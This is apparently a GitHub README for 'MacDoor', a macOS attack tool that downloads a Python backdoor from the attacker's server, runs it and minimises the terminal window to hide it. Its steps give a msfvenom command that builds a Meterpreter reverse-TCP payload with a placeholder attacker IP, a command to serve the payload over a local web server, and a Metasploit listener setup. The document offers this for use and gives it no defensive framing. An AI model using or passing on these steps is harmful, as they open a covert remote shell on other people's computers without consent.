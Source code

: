 # MacDoor - Python Backdoor Execution

```
    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/     
```

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# DESCRIPTION

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# STEPS

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# NOTE

* You need to modify the script with your attacker IP and the port or your local server.

